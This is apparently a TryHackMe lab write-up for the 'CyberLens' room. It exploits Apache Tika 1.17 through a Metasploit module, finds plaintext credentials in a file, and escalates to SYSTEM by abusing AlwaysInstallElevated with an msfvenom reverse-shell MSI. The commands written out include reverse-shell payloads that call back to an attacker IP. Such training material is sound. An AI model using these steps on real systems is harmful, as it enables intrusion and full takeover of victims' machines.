 ```yaml
---
title: CyberLens
description: 'Exploiting Apache Tika 1.17 with MetaSploit and abusing `AlwaysInstallElevated` to escalate to SYSTEM'
pubDate: 2024-12-26
category: 'tryhackme'
tags: ['AlwaysInstallElevated']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/544b65a5fee211fa60b7cdaf10679830.svg'
---
```


The Nmap scan reveals a HTTP server on port `61777`, looking at this its seems to be running Apache Tika, version 1.17 (http://cyberlens.thm:61777/version).

## USER

Searching for an exploit for this version we find a MetaSploit module, `apache_tika_jp2_jscript`.

Lets give it a try:

```bash
msf6 use windows/http/apache_tika_jp2_jscript
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOST cyberlens.thm
RHOST => cyberlens.thm
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST tun0
LHOST => 10.9.0.4
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

[*] Started reverse TCP handler on 10.9.0.4:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.166.28:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
...[snip]...
[*] Sending stage (177734 bytes) to 10.10.166.28
[*] Meterpreter session 1 opened (10.9.0.4:4444 -> 10.10.166.28:49732) at 2024-12-26 23:42:24 +0100
```
_This might take a few tries_


## ROOT

Looking around on the machine we find an interesting file.


```bash
Directory of C:\Users\CyberLens\Documents\Management

06/07/2023  03:09 AM    <DIR>          .
06/07/2023  03:09 AM    <DIR>          ..
06/07/2023  03:09 AM                90 CyberLens-Management.txt
...[snip]...
type CyberLens-Management.txt

CyberLens-Management.txt


Remember, manual enumeration is often key in an engagement ;)

CyberLens
HackSmarter123
```

With the credentials `CyberLens` and `HackSmarter123` we can RDP to the machine.

Checking for ways to priv esc we can use this `PrivescCheck.ps1` (https://github.com/itm4n/PrivescCheck) script.

```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
...[snip]...
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                 ~~~ PrivescCheck Summary ~~~                 ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 TA0004 - Privilege Escalation
 - AlwaysInstallElevated → High
 - Latest updates installed → Medium
...[snip]...
```

Checking out how to abuse the `AlwaysInstallElevated` privilege we find the following resource: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/AlwaysInstallElevated.md#tool-Exploitation

We can generate an MSI file with msfvenom like this:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.9.0.4 lport=4444 -f msi > shell.msi
```

The easiest way to execute this is to upload it to the machine and double click the `shell.msi` installer through RDP.
On our listener we get a shell as `nt authority\system`.
